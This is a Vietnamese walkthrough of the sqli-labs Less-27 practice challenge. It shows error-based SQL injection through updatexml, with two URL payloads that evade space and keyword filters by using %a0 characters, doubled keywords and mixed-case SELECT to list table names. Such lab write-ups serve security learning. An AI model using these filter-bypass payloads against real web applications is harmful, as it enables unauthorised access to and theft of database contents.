







# Less 27

Đề bài yêu cầu truyền vào ID



Tôi thử truyền vào một gía trị



Thử truyền vào các giá trị có thể gây ra lỗi



Ta thấy ở đây nó hiển thị lỗi của SQL ra màn hình. Ta có thể thấy rằng tận dụng đây ta có thể khai thác các thông tin của DB

Tôi thử để tìm cách injection vào thì thấy không sử dụng được dấu cách như những bài trước.





Ta còn thấy được ở đây không sử dụng được `union` và `select`. Bên dưới backend đã xử lý để bỏ `select` và `union` giống như với `and` và `or` ở những bài trước.

Ở đây ta có một vài cách để pass qua cái này. Ta có thể thực hiện giống như với `and` và `or` như các bài trước.

```
http://192.168.84.233/sqli-labs/Less-27/?id=1%27||updatexml(%a01%a0,concat(%a00x7e%a0,(SESELECTLECT%a0table_name%a0from%a0information_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),%a00x7e%a0),1)||%271%27=%271
```



Hoặc với `select` và `union` ta có thể viết hoa và thường lẫn lộn

```
http://192.168.84.233/sqli-labs/Less-27/?id=1%27||updatexml(%a01%a0,concat(%a00x7e%a0,(SelEcT%a0table_name%a0from%a0information_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),%a00x7e%a0),1)||%271%27=%271
```



Tương tự ta có thể show các thông tin khác trong DB

